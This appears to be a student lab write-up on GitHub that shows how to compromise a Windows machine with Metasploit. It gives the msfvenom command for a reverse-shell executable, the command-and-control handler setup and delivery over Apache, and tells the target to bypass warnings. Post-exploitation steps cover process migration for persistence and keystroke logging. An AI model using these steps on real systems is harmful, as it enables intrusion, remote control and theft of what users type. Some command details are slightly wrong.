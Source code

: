 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit
# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
### PROGRAM:
Find the attackers ip address using ifconfig
### OUTPUT:
![374794141-b98e3dbe-cbf4-465e-83aa-f1ac913b2a51](https://github.com/user-attachments/assets/2f6e41f0-58e7-4c3b-a006-8d6c3cfebb98)
Create a malicious executable file fun.exe using msenom command 
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

### OUTPUT:
![374794574-094f111d-38e4-47a4-b950-8c0544a3463e](https://github.com/user-attachments/assets/a35a9889-c95a-404b-995b-1a4e2857a964)
copy the fun.exe into the apache /var/www/html folder
![374794668-1a19f712-d904-4e9a-9c3f-a0f824215d01](https://github.com/user-attachments/assets/b353b60d-1335-4fc4-8208-e5710a8ddd92)
Start apache server sudo systemctl apache2 start
![374794788-2944d067-02b2-43fc-9487-5f9e71c393b7](https://github.com/user-attachments/assets/a0e2e4f2-2219-4cb2-a119-ea9f8a3004be)
Check the status of apache2 sudo apache2 status

Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
### OUTPUT:
![374795103-d6bd1bdb-3064-45e8-b6b1-e22d2e80209f](https://github.com/user-attachments/assets/bfbf1ec5-8eae-4283-972b-242054eac047)
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![374795180-7be60e9f-2ce3-487a-9668-8bdb282e8931](https://github.com/user-attachments/assets/ecbf4d84-df88-4168-999c-91fce0a744b2)
![374795180-7be60e9f-2ce3-487a-9668-8bdb282e8931](https://github.com/user-attachments/assets/20ab5b55-df3a-47a5-a7ef-f2ce45803618)
Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit
![374795286-596d3916-66f9-4605-8ae4-5dd21116b77a](https://github.com/user-attachments/assets/cf8f1540-8afd-4ce4-b388-ef67e147bb11)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![374795471-d53176fa-7af0-4f05-b526-91713074335d](https://github.com/user-attachments/assets/ec75dc42-d147-4b5e-8477-fc44ae6d8ea4)
keyscan_dump Shows the keystrokes captured so far
![374795532-ec7c391d-62a6-4fdc-a2c3-ef383b6c8a57](https://github.com/user-attachments/assets/a25f940d-595a-482c-8a3c-47e1a59991b0)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
